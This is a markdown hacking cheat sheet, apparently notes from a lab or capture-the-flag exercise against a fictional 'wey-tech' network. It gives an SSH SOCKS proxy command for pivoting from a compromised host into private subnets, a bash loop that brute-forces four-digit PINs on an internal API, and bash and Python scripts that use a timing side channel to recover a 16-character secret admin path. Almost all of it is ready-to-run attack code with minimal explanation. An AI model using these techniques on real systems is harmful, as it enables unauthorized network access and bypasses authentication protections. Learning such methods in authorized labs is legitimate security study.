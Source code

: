 # Pivoting

## If you've owned a box, how can you pivot to other machines in private subnets?
SOCKS Proxy
```
ssh weytechuser@files.wey-tech.com -D 9050 -f -N
```
Use proxychains to force any command we run locally to route all traffic through our SOCKS tunnel so that we can hit targets

Configure Firefox to run through the proxy. A good addon is SmartProxy and you can configure the SOCKS4 Protocol proxy using the localhost port set above.

## What's a way to brute-force attempt pins on an API?
```
$ ssh weytechuser@files.wey-tech.com 'for i in $(seq 1000 9999); do RESULT=$(curl http://10.4.4.80/api/confirm/abcd/$i 2>/dev/null); if [[ $RESULT == *"true"* ]]; then echo -e "\n$RESULT\nPincode: $i\n"; break; fi; done'
```

## Bash script for timeout attack of a 16 byte random path
```
COOKIE="Cookie: session=<PLACE YOUR COOKIE HERE>"
ADMINID=""
for num in $(seq 0 15 | tac); do
  ZZZs=$(eval "printf 'Z%.0s' {0..$num}")
  PADDING=${ZZZs::-1}
  for char in $(echo "abcdefghijklmnopqrstuvwxyz0123456789" | fold -w1); do  
    RES=$(timeout "$(($num + 1))" curl -s "http://10.4.4.80/api/list/files/1/$ADMINID$char$PADDING" -H "$COOKIE")
    if [ -n "$RES" ]; then
      ADMINID="$ADMINID$char"
      echo "Found another Character: $ADMINID"
      break
    fi
  done
done
```

## Similar Python url fuzz
```
import string
import requests
import sys
import json
import threading
import Queue
import time


character_set = 'abcdefghijklmnopqrstuvwxyz0123456789'

def queue_get_all(q, max_items):
    items = []
    for numOfItemsRetrieved in range(0, max_items):
        try:
            if numOfItemsRetrieved == max_items:
                break
            items.append(q.get_nowait())
        except:
            break
    return items

def times_out(q, alpha, session, ip_address, characters, uid,  timeout):
    start = time.time()
    res = json.loads(session.get(  'http://{}:8080/api/list/files/{}/{}'.format(ip_address, uid, characters)).text)
    end = time.time()
    q.put( [alpha, bool(end - start < timeout)] )


def iterate(character_set, length, ip_address, uid, username, password ):
    session = requests.Session()
    results = session.post('http://{}:8080/api/login'.format(ip_address),data={'username': username, 'password': password})
    final_character = ''
    for num in range(length):
        padding_back = '_' * ((length - num)-1)
        q = Queue.Queue()
        for alpha in character_set:
            threading.Thread(target=times_out, args=[q, alpha, session, ip_address, (final_character + alpha + padding_back), uid, (length - num) ]).start()
        time.sleep((length - num) + 1)
        results = queue_get_all(q, len(character_set))
        final_character += [x[0] for x in results if x[1]][0]
        print(final_character)
    print('The user directory with UID {} is {}'.format(uid, final_character))



if __name__ == "__main__":
    #       Character_Set,  Length to send, ip address,    user id number,  username,           password
    try:
        iterate(character_set,  16,              sys.argv[1],   sys.argv[2],     sys.argv[3],        sys.argv[4])
    except:
        print('Ex - python bruteforce_directory.py 127.0.0.1 1 admin password')
```
